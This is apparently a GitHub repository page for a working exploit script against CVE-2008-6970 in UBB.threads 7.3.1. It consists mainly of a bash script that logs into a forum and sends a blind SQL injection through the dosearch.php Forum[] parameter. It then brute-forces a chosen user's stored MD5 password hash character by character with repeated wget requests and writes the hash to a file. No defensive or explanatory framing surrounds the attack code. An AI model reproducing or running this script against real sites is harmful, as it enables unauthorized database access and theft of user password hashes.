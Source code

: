 INFO
----


    DESCRIPTION

    Exploits PHP parameter input validation flaw and blindly brute force stored MD5 SQL hash for given user ID.

    FILE

    <pre>
    CVE-2008-6970.sh - Shell code program.

SOURCE

<https://github.com/KyomaHooin/CVE-2008-6970>

</pre>
CVE-2008-6970.sh
----------------

    #!/bin/sh
    #
    # UBB 7.3.1 dosearch.php blind SQL injection brute force attack
    #

    hex=(A B C D E F 0 1 2 3 4 5 6 7 8 9)
    main='http://[removed]/ubbthreads/ubbthreads.php'
    login='ubb=start_page&Loginname=[removed]&Loginpass=[removed]&firstlogin=1&from=http%3A%2F%2F[removed]%2Fubbthreads%2Fubbthreads.php%3Fubb%3Ddosearch%26amp%3Bfromsearch%3D1%26amp%3BWords%3Dmove%26amp%3BForum%5B%5D%3Df2%2527%29%29%2Band%2B1%253D1%2F*&buttlogin=Log+In'
    base="$main?ubb=dosearch&fromsearch=1&Words=body"
    inject="&Forum[]=f2')) AND (SELECT 1 FROM w3t_USERS WHERE USER_ID%3D3 AND UPPER(USER_PASSWORD) LIKE 'R%')%3D1/*"

    hash=()

    replace(){
        echo $1 | sed "s/LIKE '\(_*\)\(.*\)%'/LIKE '\1$2%'/"
    }

    push(){
        echo $1 | sed "s/LIKE '\(_*\)\(.*\)%'/LIKE '\1_$2%'/"
    }

    brute(){
        for char in ${hex[*]}; do
            #replace string
            inj=`replace "$inject" $char`
            #inject
            wget -O ubb --load-cookies cookies.txt --keep-session-cookies --save-cookies cookies.txt "$base$inj"
            #if match then return characters to hash array
            if [ -z `cat ubb | grep "There are no results"` ]; then
                hash+=($char)
                return
            fi
            rm ubb
        done
    }

    # INIT

    #get PHPSESSID cookie
    wget -O /dev/null --keep-session-cookies --save-cookies cookies.txt $main
    #login & get UBB cookies & inject SQL to bypass dosearch.inc.php access restriction
    wget -O /dev/null --load-cookies cookies.txt --keep-session-cookies --save-cookies cookies.txt --post-data=$login $main
    #blind SQL injection brute force attack
    for ((i=0; i<32;i++)); do
        brute
        inject=`push "$inject" "R"`
    done
    #clean
    rm cookies.txt
    #print the hash
    printf "%s" "${hash[@]}" >> hash.txt